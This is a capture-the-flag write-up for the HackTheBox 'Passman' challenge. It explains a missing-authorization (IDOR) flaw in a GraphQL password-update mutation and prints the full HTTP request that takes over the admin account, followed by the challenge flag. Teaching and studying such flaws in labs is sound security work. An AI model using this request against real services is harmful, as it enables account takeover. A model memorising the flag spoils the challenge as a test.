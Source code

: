## Passman :: Easy

#### Scenario

```
Pandora discovered the presence of a mole within the ministry.
To proceed with caution, she must obtain the master control password for the ministry, which is stored in a password manager.
Can you hack into the password manager?
```

#### Solve

![](/images/passman-source-tree.png)

When we begin this challenge, we arrive on this landing page:  

![](/images/passman_login.png)

We can `Login` and `Register` a new account.  
Let's inspect the logic behind these functionalities in the source.  
These are handled by `GraphQL` mutations.  

These mutations are in the `helper/GraphQLHelper.js` file.  
Three mutations are available pertaining to the authentication of users:  

- `RegisterUser`: Handles the creation of a new user.  
- `LoginUser`: Handles the authentication of a user.  
- `UpdatePassword`: Handles the password update functionality for a user.  

There is a logic flaw in the `UpdatePassword` mutation.  
Let's take a look:  

```javascript
        UpdatePassword: {
            type: ResponseType,
            args: {
                username: { type: new GraphQLNonNull(GraphQLString) },
                password: { type: new GraphQLNonNull(GraphQLString) }
            },
            resolve: async (root, args, request) => {
                return new Promise((resolve, reject) => {
                    if (!request.user) return reject(new GraphQLError('Authentication required!'));

                    db.updatePassword(args.username, args.password)
                        .then(() => resolve(response("Password updated successfully!")))
                        .catch(err => reject(new GraphQLError(err)));
                });
            }
        },
```

This feature does not validate that the initiator is the target of the password change.  

We can see that it check if `request.user` exists.  
But then it uses `args.username` to specify which user to reset.  

Letting us change the password for any user.  

Here is the request used to changed the `admin` password:  

```http
POST /graphql HTTP/1.1
Host: 178.128.174.19:30312
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://178.128.174.19:30312/
Content-Type: application/json
Origin: http://178.128.174.19:30312
Content-Length: 192
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InNrdWxsa2lkIiwiaXNfYWRtaW4iOjAsImlhdCI6MTY3OTE0NzI3Mn0.TrQXKqwG2KN2GMkwZwftQz3iw8ftKbusYtPYYtLeLfk;
Connection: close


{"query":"mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message } }","variables":{"username":"admin","password":"taken-over"}}
```

Using this request, will reset the `admin` user's password for `taken-over`.  

Once this request is done, we can authenticate as `admin` and obtain the flag.  

![](/images/passman_flag.png)

```
HTB{1d0r5_4r3_s1mpl3_4nd_1mp4ctful!!}
```

